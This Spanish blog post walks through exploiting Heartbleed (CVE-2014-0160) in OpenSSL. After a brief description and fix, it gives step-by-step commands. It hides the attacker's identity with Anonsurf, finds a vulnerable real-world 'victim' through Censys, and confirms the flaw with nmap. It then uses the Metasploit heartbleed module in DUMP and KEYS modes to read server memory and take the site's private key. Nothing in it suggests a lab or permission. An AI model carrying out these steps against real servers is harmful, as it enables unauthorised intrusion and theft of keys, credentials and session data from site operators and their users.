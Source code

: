 ```yaml
---
layout: single
title: Explotación de CVE-2014-0160 - Vulnerabilidades
excerpt: "Heartbleed, mejor conocida como CVE-2014-0160 es una vulnerabilidad que permite a un atacante leer hasta 64 Kb de memoria por ataque en cualquier cliente o servidor conectado."
date: 2020-05-15
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png
  teaser_home_page: true
  icon: /assets/images/heartbleed.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2014-0160
  - heartbleed
  - openSSL
  - censys
  - metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png)

## Descripción:

CVE-2014-0160, o "Heartbleed", no es un problema en SSL / TL específicamente, sino que fue un problema de implementación en OpenSSL que afecta a las versiones 1.0.1 a 1.0.1f. Puede solucionarse actualizando a una versión más reciente de OpenSSL o compilando alternativamente con la opción -DOPENSSL_NO_HEARTBEATS. No requiere un Man-in-the-Middle para explotar y puede ser explotado tanto contra el servidor como contra el cliente. El problema permite a un atacante extraer hasta 64 kb de memoria del sistema vulnerable, lo que puede conducir al robo de credenciales, tokens de sesión y claves privadas del servidor.

## Explotaciòn:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato.

• Anonsurf start

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01602.png)

Realizamos la búsqueda den Censys de un sitio vulnerable.

• https://censys.io/

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01603.png)

Luego de detectar la dirección IP de una victima realizamos un escaneo con nmap vara validar si es vulnerable.

• nmap -p 443 --script = ssl-heartbleed <URL> para HEARTBLEED

• nmap -sV --version-light --script ssl-poodle -p 443 <URL> para POODLE

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01604.png)

Utilizamos un modulo axuliar de metasploit, ingresamos la ip, puerto y seleccionamos modo DUMP para extraer información de la memoria del sitio., finalmente ejecutamos el exploit.

• msfconsole

• usar auxiliar / escáner / ssl / openssl_heartbleed msf auxiliar

• set RHOSTS <IP O URL VICTIMA>

• set RPORT 443

• set VERBOSE true

• set action DUMP

• exploit

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01605.png)

Observamos que nos trae 65 Kb de información de la memoria del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01606.png)

Cambiamos el modo de ataque para que nos extraiga claves que tenga y lo ejecutamos de nuevo.

• set action KEYS

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01607.png)


Finalmente bbtenemos la clave privada del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01608.png)

## Referencias:

• https://heartbleed.com/

• https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/
